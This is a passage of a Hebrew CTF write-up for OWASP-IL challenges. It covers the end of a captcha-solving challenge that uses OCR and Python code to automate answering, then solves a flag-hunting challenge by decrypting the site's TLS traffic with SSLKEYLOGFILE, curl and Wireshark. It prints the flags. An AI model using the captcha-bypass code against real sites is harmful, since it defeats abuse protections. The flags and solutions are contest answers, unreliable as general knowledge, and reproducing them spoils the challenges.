embed'><span lang=HE style='font-family:"Arial",sans-serif'>מלבד הקריאה ל-</span><span
lang=EN-US dir=LTR>OCR</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> עצמו, הפונקציה גם
מבצעת עיבוד נוסף לתשובה באמצעות המילון הבא:</span></p>

```python
SIMILAR_LETTERS_TRANS = string.maketrans("IOYSBFZXCVMKWUJD0]?", "lo958fzxcvmkwuj5ol7")
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>העיבוד הזה נדרש
בגלל באג בגרסאות החדשות של </span><span lang=EN-US dir=LTR>Tesseract</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> שבעקבותיו לא ניתן להגדיר רשימת תווים סגורה (אותיות קטנות
ומספרים במקרה שלנו). לכן, כשה-</span><span lang=EN-US dir=LTR>OCR</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> טועה וחושב שמדובר באות גדולה, הקוד הזה מתקן אותו (לא תמיד מדובר
בשווה-ערך ל-</span><span lang=EN-US dir=LTR>lower()</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>. למשל,
צריך לתקן את </span><span lang=EN-US dir=LTR>B</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> ל-8 ולא ל-</span><span
lang=EN-US dir=LTR>b</span><span dir=RTL></span><span lang=HE style='font-family:
"Arial",sans-serif'><span dir=RTL></span>).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ולסיום, הקוד לפתרון
המשוואה החשבונית:</span></p>

```python
def get_math_captcha_answer():
    operation = {'+': operator.add, '-': operator.sub, '*': operator.mul}
    r = s.get(URL)
    match = match_captcha_regex.search(r.text)
    try:
        return operation[match.group(2)](int(match.group(1)), int(match.group(3)))
    except Exception as e:
        raise Exception("Error attempting to solve math! ({})".format(str(e)))
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אחרי בין 70-200
ניסיונות (משמעותית גרוע יותר מהאתגר המקורי) הפתרון שמתקבל הוא:<br>
</span><b><span lang=EN-US dir=LTR>OWASP-IL{I_4M_Th3_0CR_N1nj4!}</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 14 - </span><span
lang=EN-US dir=LTR>Flags, Flags, Flags</span><span dir=RTL></span><span
lang=HE style='font-family:"Times New Roman",serif'><span dir=RTL></span> (רמת
קושי קשה, 750 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
<p><span lang=en-IL>There are so many flags but where is my flag!!! :(<br>
Please find my flag I know it's here...</span></p>
<p><span lang=en-IL>URL: <span class=MsoHyperlink><b><a
href="https://challenges.owaspil.ctf.today:8443/">https://challenges.owaspil.ctf.today:8443/</a></b></span></span></p>
<p class=MsoNormal><span lang=en-IL>Hint</span><span lang=EN-US>: </span><span
lang=en-IL>If you see this message</span></p>
<p><span lang=EN-US style='font-size:11.0pt;font-family:"Calibri",sans-serif'></span><br/><b><span
lang=en-IL>You already have the flag, just sniff around.... <br>
And please shut down your proxy it could scare the flag.</span></b></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>פתרון:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לחיצה על הקישור
מביאה אותנו לדף </span><span lang=en-IL dir=LTR>HTTPS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> (עם </span><span
lang=EN-US dir=LTR>self-signed certificate</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> לא מוכר)
שמכיל עשרות דגלים:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>את האתגר התחלתי
לפתור אחרי שכבר פורסם הרמז, ולכן הדרך לשלב הראשון התקצרה עבורי, אך לא בדיוק
באופן שיוצרי האתגר התכוונו אליו.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כשהסתכלתי על החלק
המטושטש של הרמז, המילה השנייה נראתה לי מאוד כמו </span><span lang=EN-US
dir=LTR>flags</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, וזה הסתדר מצוין עם קוד המקור של האתר:</span></p>


```html
<div class="col-lg-1 col-sm-2 col-xs-4">
 <p class="blend-link">
  <a href="./flags/argentina-flags-cat.png">
  <br>ARGENTINA</a></p>
</div>
<div class="col-lg-1 col-sm-2 col-xs-4">
 <p class="blend-link">
  <a href="./flags/armenia-flags-cat.png">
  <br>ARMENIA</a></p>
</div>
```


<p class=MsoNormal><span lang=en-IL>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם כך, המילה השלישית
צריכה להיות </span><span lang=EN-US dir=LTR>cat</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>. נותר
לגלות מה המילה הראשונה:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם נחדד קצת את
התמונה:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אם נמדוד את הגדלים
של ה&quot;גושים&quot;, נגלה שהרוחב של המילה השנייה (</span><span lang=EN-US
dir=LTR>flags</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>) הוא כ-40 פיקסלים, כלומר כ-8 פיקסלים לתו. הרוחב של המילה
הראשונה הוא כ-150 פיקסלים, משמע כ-19 תווים ברוחב 8 פיקסלים.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>במקרה, הקישור היחיד
שמתאים לכך הוא:</span></p>
<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ואכן:</span></p>
<p class=MsoNormal dir=RTL align=center  style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>איך היה אפשר למצוא
את הקישור הזה בלי &quot;לרמות&quot; לאחר מתן הרמז? כנראה על ידי ביקור בכל
הקישורים ובדיקת התגובה.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>איך היה אפשר למצוא
את הקישור הזה לפני הרמז? הוא היחיד שמופיע ללא סיומת </span><span lang=EN-US
dir=LTR>PNG</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>:</span></p>

<pre><code><span lang=en-IL>&nbsp;</span></code></pre>

```html
<div class="col-lg-1 col-sm-2 col-xs-4">
 <p class="blend-link">
  <a href="./flags/Netherlands-flags-cat.png">
  <br>NETHERLANDS</a></p>
</div>

<div class="col-lg-1 col-sm-2 col-xs-4">
 <p class="blend-link">
  <a href="./flags/NetherlandsAntilles-flags-cat">
  <br>NETHERLANDS ANTILLES</a></p>
</div>
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כנראה בגלל
ה&quot;רמאות&quot; הזאת, הקארמה התנקמה בי והחלק השני לקח לי שעות על גבי שעות.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הרמז אמר שהדגל כבר
אצלנו ורק צריך &quot;לרחרח מסביב&quot; </span><span dir=LTR></span><span
lang=EN-US dir=LTR><span dir=LTR></span>(sniff around)</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, רמז עבה
לשימוש ב-</span><span lang=EN-US dir=LTR>Sniffer</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> ללכידת
התעבורה וניתוחה.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לכן, הצעד המתבקש
הבא הוא לפתוח </span><span lang=EN-US dir=LTR>Sniffer</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> כדוגמת </span><span
lang=EN-US dir=LTR>WireShark</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>, לבצע את הבקשה
לאתר ולעבור על התעבורה שמתקבלת.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כך זה נראה:</span></p>
<p class=MsoNormal dir=RTL  align=center style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>את החלק הראשון (</span><span
lang=EN-US dir=LTR>DNS</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>) אפשר לפסול (למשל
כי הוא לא קשור לבקשה הספציפית ל-</span><span lang=EN-US dir=LTR>URI</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> הזה, והוא בכלל לא מתקבל מהשרת). מה שנשאר לבדוק הוא את התעבורה
החל מלחיצת היד ברמת ה-</span><span lang=EN-US dir=LTR>TCP</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> עם השרת
ועד לסיום התקשורת. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ישנן מספר שכבות
לבדוק:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>1.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>שכבת
</span><span lang=EN-US dir=LTR>IP</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>2.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>שכבת
</span><span lang=EN-US dir=LTR>TCP</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US>3.<span style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>שכבת
</span><span lang=EN-US dir=LTR>TLS</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> (החל משלב מסוים
התעבורה בשכבה זו מוצפנת)</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מכיוון שזהו האתגר
היחיד שמכיל שכבת </span><span lang=EN-US dir=LTR>TLS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, זה נראה
כמו המקום ההגיוני להתחיל ממנו.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>אפשר לבחון את פרטי ההתקשרות
באמצעות שימוש </span><span lang=EN-US dir=LTR>cURL</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> במצב </span><span
lang=EN-US dir=LTR>Verbose</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span>:</span></p>

```bash
root@kali:/media/sf_CTFs/owasp_il/flags# curl -v -k https://challenges.owaspil.ctf.today:8443/flags/NetherlandsAntilles-flags-cat
*   Trying 52.47.109.181...
* TCP_NODELAY set
* Connected to challenges.owaspil.ctf.today (52.47.109.181) port 8443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: none
  CApath: /etc/ssl/certs
* TLSv1.2 (OUT), TLS handshake, Client hello (1):
* TLSv1.2 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Client hello (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES128-GCM-SHA256
* ALPN, server accepted to use h2
* Server certificate:
*  subject: C=AU; ST=Some-State; O=Internet Widgits Pty Ltd
*  start date: May 28 10:02:02 2018 GMT
*  expire date: May 28 10:02:02 2019 GMT
*  issuer: C=AU; ST=Some-State; O=Internet Widgits Pty Ltd
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* Using HTTP2, server supports multi-use
* Connection state changed (HTTP/2 confirmed)
* Copying HTTP/2 data in stream buffer to connection buffer after upgrade: len=0
* Using Stream ID: 1 (easy handle 0x562a5c7dea50)
> GET /flags/NetherlandsAntilles-flags-cat HTTP/2
> Host: challenges.owaspil.ctf.today:8443
> User-Agent: curl/7.61.0
> Accept: */*
>
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
< HTTP/2 200
< content-type: text/html
< date: Mon, 24 Sep 2018 15:22:05 GMT
<
* Connection #0 to host challenges.owaspil.ctf.today left intact
Look closely.. you just received it :)
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=EN-US dir=LTR>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שום דבר חריג לא
מופיע פה. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ה-</span><span
lang=EN-US dir=LTR>Certificate</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> שנשלח מהשרת הוא
מקום הגיוני להחביא בו מידע, לכן שמרתי אותו ועברתי עליו:</span></p>

```bash
root@kali:/media/sf_CTFs/owasp_il/flags# openssl x509 -in 1.cer -inform der -text -noout
Certificate:
    Data:
        Version: 1 (0x0)
        Serial Number:
            9c:59:56:dd:cb:cd:d0:ca
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
        Validity
            Not Before: May 28 10:02:02 2018 GMT
            Not After : May 28 10:02:02 2019 GMT
        Subject: C = AU, ST = Some-State, O = Internet Widgits Pty Ltd
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (1024 bit)
                Modulus:
                    00:d5:ce:81:bf:fe:9d:77:c2:be:2c:3e:c8:cc:ec:
                    16:ce:cb:d3:31:8b:25:77:60:e1:e0:a0:0e:d5:c8:
                    e7:f2:a4:db:90:07:76:5a:cf:e6:79:4a:0e:02:3e:
                    d9:43:d0:77:04:ad:b3:0b:32:47:87:6c:1c:80:bb:
                    29:92:9f:2d:36:96:b6:ca:95:3b:9e:7e:9f:19:31:
                    c0:cd:3b:b4:e5:45:b8:29:d4:9a:41:bf:be:5f:1e:
                    cf:b3:e7:84:9e:9c:06:7c:5d:0b:39:65:5f:4e:83:
                    97:a6:fc:d4:52:d6:c4:5d:e4:45:c7:49:65:21:03:
                    8e:30:16:71:c6:63:22:f9:81
                Exponent: 65537 (0x10001)
    Signature Algorithm: sha256WithRSAEncryption
         60:ca:89:43:2b:9c:2c:44:dc:c1:1c:64:8c:1b:3d:87:91:95:
         17:e1:7d:96:67:a4:de:50:f4:f9:16:2b:86:d7:4a:db:f5:60:
         ea:0f:bd:37:3b:df:ec:c1:62:9c:4f:49:ec:6c:aa:37:00:f3:
         4f:a5:b0:24:a4:f1:fd:59:c8:70:c8:d0:3d:67:38:b1:03:f7:
         61:e9:19:81:e1:3d:e5:81:6b:0e:dc:b2:f2:80:9e:ba:59:2c:
         6b:ab:aa:a4:dc:c7:e0:80:24:aa:74:94:45:37:18:86:e6:c4:
         aa:39:dd:00:cd:f5:da:46:d0:72:84:8a:1e:2f:87:83:a8:b3:
         08:c1
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לא היה שום דבר
מיוחד במספר הסריאלי, או במודולו.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לעיתים ניתן לפצח את
המפתח הפרטי של </span><span lang=EN-US dir=LTR>RSA</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> במידה
ונעשו טעויות ביצירתו. כלי אחד כזה הוא </span><span class=MsoHyperlink><span
lang=EN-US><a href="https://github.com/Ganapati/RsaCtfTool"><span dir=LTR>RsaCtfTool</span></a></span></span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, אך גם הוא לא העלה דבר.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מכיוון שהכיוון הזה
לא הצליח, עברתי להסתכל על התעבורה עצמה. בכל שכבה (במידת האפשר), עברתי על המידע
וחיפשתי נתונים יוצאי דופן, למשל:</span></p>
<p class=MsoListParagraphCxSpFirst dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מחרוזות
</span><span lang=EN-US dir=LTR>ASCII</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מידע
מוחבא בתוך שדות שמורים (</span><span lang=EN-US dir=LTR>Reserved</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>)</span></p>
<p class=MsoListParagraphCxSpMiddle dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=EN-US dir=LTR>Checksum</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>-ים שלא מסתדרים</span></p>
<p class=MsoListParagraphCxSpLast dir=RTL style='margin-top:0cm;margin-right:
36.0pt;margin-bottom:8.0pt;margin-left:0cm;text-align:right;text-indent:-18.0pt;
direction:rtl;unicode-bidi:embed'><span lang=EN-US style='font-family:Symbol'>·<span
style='font:7.0pt "Times New Roman"'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
</span></span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'>מידע
ב-</span><span lang=EN-US dir=LTR>Sequence Number</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> וב-</span><span
lang=EN-US dir=LTR>Ack Number</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>שום דבר לא בלט
לעין.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>בלית ברירה, עברתי
לכיוון שלא היה נראה לי שיש בו משהו – פענוח תעבורת ה-</span><span lang=EN-US
dir=LTR>TLS</span><span dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ל-</span><span
lang=EN-US dir=LTR>WireShark</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> יש יכולת להציג את
תעבורת ה-</span><span lang=EN-US dir=LTR>TLS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> המפוענחת,
במידה ומספקים לו מפתח פרטי ששימש להתקשרות. עשיתי דברים כאלה בעבר כשהיה בידי
המפתח הפרטי של ה-</span><span lang=EN-US dir=LTR>Certificate</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> שנשלח מהשרת, אך איך עושים זאת כשאני בצד הלקוח?</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>מסתבר שקיים משתנה
סביבה בשם </span><span lang=EN-US dir=LTR>SSLKEYLOGFILE</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> שכאשר
מגדירים אותו, כרום ופיירפוקס יתעדו את המפתחות שמשמשים להצפנת תעבורת </span><span
lang=EN-US dir=LTR>TLS</span><span dir=RTL></span><span lang=HE
style='font-family:"Arial",sans-serif'><span dir=RTL></span> בקובץ לוג מיוחד.
ואפילו יותר טוב – </span><span lang=EN-US dir=LTR>WireShark</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> יודע להסתדר עם הפורמט של הקובץ הזה. מצוין, לא? ובכן, גם זה לא
עבד, וברשת אפשר למצוא המון מידע על כך שהתמיכה הוסרה, והוחזרה, ועובדת רק ב-</span><span
lang=EN-US dir=LTR>Builds</span><span dir=RTL></span><span lang=EN-US
style='font-family:"Arial",sans-serif'><span dir=RTL></span> </span><span
lang=HE style='font-family:"Arial",sans-serif'>מסוימים, או שלא, ובקיצור – נראה
כמו מבוי סתום. עד שלפתע מתברר שגם </span><span class=MsoHyperlink><span
lang=EN-US><a href="https://ec.haxx.se/tls-sslkeylogfile.html"><span dir=LTR>cURL</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> תומך באפשרות הזו</span></a></span></span><span lang=HE
style='font-family:"Arial",sans-serif'>(!) והחיים חוזרים להיות פשוטים.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>לאחר הגדרת הקובץ
במקום המתאים ב-</span><span lang=EN-US dir=LTR>WireShark</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span>, אנחנו
נחשפים לתעבורת ה-</span><span lang=EN-US dir=LTR>TLS</span><span dir=RTL></span><span
lang=HE style='font-family:"Arial",sans-serif'><span dir=RTL></span> המפוענחת.</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>ומי מחכה שם אם לא
הדגל, במספר טאבים של </span><span lang=EN-US dir=LTR>Decrypted SSL</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span> בתחתית המסך:</span></p>
<p class=MsoNormal dir=RTL style='text-align:center;direction:rtl;unicode-bidi:
embed'><span lang=en-IL  align=center dir=LTR></span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הדגל:</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><b><span lang=EN-US dir=LTR>OWASP-IL{This_is_the_real_flag}</span></b></p>
<b><span lang=EN-US style='font-size:11.0pt;line-height:107%;font-family:"Calibri",sans-serif'><br
clear=all style='page-break-before:always'>
</span></b>
<p class=MsoNormal><b><span lang=EN-US>&nbsp;</span></b></p>
<h2 dir=RTL style='text-align:right;direction:rtl;unicode-bidi:embed'><span
lang=HE style='font-family:"Times New Roman",serif'>אתגר 15 </span><span
lang=HE style='font-family:"Arial",sans-serif'>–</span><span lang=HE
style='font-family:"Times New Roman",serif'> </span><span lang=EN-US dir=LTR>Alcatraz</span><span
dir=RTL></span><span lang=HE style='font-family:"Times New Roman",serif'><span
dir=RTL></span> (רמת קושי קשה, 850 נקודות)</span></h2>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>הוראות האתגר:</span></p>
